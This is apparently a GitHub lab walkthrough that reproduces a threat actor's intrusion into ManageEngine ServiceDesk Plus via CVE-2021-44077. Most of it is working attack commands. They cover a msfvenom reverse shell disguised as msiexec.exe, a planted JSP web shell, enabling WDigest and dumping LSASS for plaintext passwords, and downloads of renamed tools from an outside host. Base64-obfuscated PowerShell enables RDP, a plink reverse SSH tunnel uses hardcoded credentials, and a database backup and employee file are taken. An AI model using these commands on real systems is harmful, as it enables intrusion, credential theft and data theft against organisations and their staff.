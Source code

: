 

## 1. Hands On Action: Exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077)

### 1. in the POC msiexec.exe is created through `msfvenom`

   ```
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.134 LPORT=4444 -f exe > msiexec.exe
   ```

   b. run your listener

   ```
   nc -l 4444
   ```

   c. run the exploit script

   ```
   python3 exploit.py http://192.168.20.135:8080/ msiexec.exe
   ```

   ![CVE-Exploitation-Success](CVE-Exploitation-Success.png)

   #### But this approach isn't same as the report, as in the report the Threat Actor dropped a web shell jsp file `jm2.jsp` and then accessed it.
   
   ![image](https://github.com/user-attachments/assets/16c25295-6f5a-465d-96b4-da499027becb)

   #### So, i wrote a simple python Script that when executing it, a wbsh.jsp is created a the \custom\login dir
   
   ![image](https://github.com/user-attachments/assets/a0525bc4-dc65-4c9b-9856-110ae5456b23)

   
   #### then used pyinstaller to convert it to exe file

   ![image](https://github.com/user-attachments/assets/cb7515a7-7eb1-49a0-b72d-5a3e834b0348)

   #### now we got `msiexec.exe`, let's use the exploit again
   
   ![image](https://github.com/user-attachments/assets/8b473af9-46a4-4f89-9278-ff2b2c1b54b7)

   #### It Worked !!
   
   ![wbsh](https://github.com/user-attachments/assets/4c83acaf-d287-4330-9b7c-34514170a965)

   ![image](https://github.com/user-attachments/assets/55a6b0e8-78cf-46d7-ae3f-91f68353e9b8)

   #### No Need for Privilege Escalation

   ![image](https://github.com/user-attachments/assets/78176ea2-9843-480b-984c-b65e5ce7de80)

   
### 2. Next step we are enabling wdigest then dumping LSASS then downloading it

   a. is WDigest Enabled?

      
      reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
      

   ![image](https://github.com/user-attachments/assets/b6029281-dae5-4253-a7c5-8d4365bcc295)


   b. Let's Enable it

      
      Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
      
      
   ![image](https://github.com/user-attachments/assets/ac6e01e2-ab72-4ba4-928b-4a2ead73f624)

      
   c. now we got a clear plain text passwords stored at LSASS
      
      tasklist | findstr "lsass" 
      
      
   ![image](https://github.com/user-attachments/assets/58db05a4-2da0-4d51-8bdf-9671eb584c94)

   d. let's dump it
      
      C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 668 C:\Windows\Temp\logctl.zip full
      

   e. download it
   
   ![image](https://github.com/user-attachments/assets/6994c404-8d93-42f3-ae33-89e6cc34c703)

   f. after downloading the logctl.zip file, i'ts empty , which was weird and tried multiple ways and every time when i dump it, its empty so i had to use `procdump.exe`, i will be adding this to the lab for more fun
   
   ![image](https://github.com/user-attachments/assets/ab124bb5-bdf1-4a87-aaa8-0b53bb3d2869)

   g. download `procdump.exe`
   
      powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')

   h. use `procdump.exe`
      C:\windows\temp\calc.exe -accepteula -ma 668 C:\Windows\Temp\logct2.dmp
      
   ![image](https://github.com/user-attachments/assets/78153249-ea74-4777-8430-05dc64c8c04a)

   j. Download it

   ![image](https://github.com/user-attachments/assets/e3649426-ec9b-4fd8-a3e3-0a0ce7b1acd6)


### 3. now we have the dump, we will skip the process of fetching the passwords for now, Lets Go to the next step where the attacker start tunnelling RDP connections over SSH

   a. first we will be downloading `plink.exe` as `ekern.exe`

      powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')

   b. by Default RDP is Disabled let's Check first

      Get-Service -Name TermService
   
   ![image](https://github.com/user-attachments/assets/2c8d0804-16c5-4961-9e13-6179a61d723d)

   c. enable RDP but let's base64 encode this and put it in one-line command

      Set-Service -Name TermService -StartupType Automatic
      Start-Service -Name TermService
      Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0
   
   d. Encoded:

      powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
   

   e. run and now let's checkout
      
      Get-Service -Name TermService

   ![image](https://github.com/user-attachments/assets/272a554b-5da5-4103-8ec0-18ee4424299e)


   f. download Bitvise SSH Server `192.168.1.2` and configure credentials

      username: H@ck3r
      password: C@nt_D3f3nd_2021-44077

   g. let's write FXS.bat file to run `ekern.exe` and establish reverse SSH Connection to RDP

      echo y|C:\Users\Temp\ekern.exe -ssh -P 443 -l H@ck3r -pw C@nt_D3f3nd_2021-44077 -R 127.0.0.1:49800:192.168.20.150:3389 192.168.1.2

   h. another base64? no need to download it

      powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCBIQGNrM3IgLXB3IENAbnRfRDNmM25kXzIwMjEtNDQwNzcgLVIgMTI3LjAuMC4xOjQ5ODAwOjE5Mi4xNjguMjAuMTQ1OjMzODkgMTkyLjE2OC4xLjInDQokYmF0Y2hGaWxlUGF0aCA9ICdDOlxVc2Vyc1xWaWN0aW1cRG9jdW1lbnRzXEZYUy5iYXQnDQpTZXQtQ29udGVudCAtUGF0aCAkYmF0Y2hGaWxlUGF0aCAtVmFsdWUgJGJhdGNoQ29udGVudA==')) | Invoke-Expression}"
   
   ![image](https://github.com/user-attachments/assets/4f85fa3e-6cb0-48be-bc14-597ab146778a)


   j. let's run our batch now

   ![image](https://github.com/user-attachments/assets/f149d6b7-6b3e-475f-b867-376a98ef18ba)


   k. now It's RDP time

   ![image](https://github.com/user-attachments/assets/0f083225-b204-4e26-ab6a-89b6193da53f)

   ![image](https://github.com/user-attachments/assets/2f3579f5-3be2-40be-bad0-cba283211a7d)

   it WORKED !!
   ![image](https://github.com/user-attachments/assets/fbd3d1af-1541-41de-a2a3-23cb1f28a86c)

   
### 4. Stealing Some Data
   a. lets download postgres DB backup of the ManageEngine ServiceDesk Plus application it's located at `C:\Program Files (x86)\ManageEngine\ServiceDesk\backup\backup_postgres_11303_fullbackup_07_19_2024_20_07\`

   ![image](https://github.com/user-attachments/assets/07a1e62a-f55e-49b8-ac4d-1dfe56e59476)

   b. there is a file named `Employees.xls` located at the Desktop let's see it 

   ![image](https://github.com/user-attachments/assets/4bf04d98-3165-41a8-8dea-4dbd01abac1d)

## Conclusion
    We started exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077) 
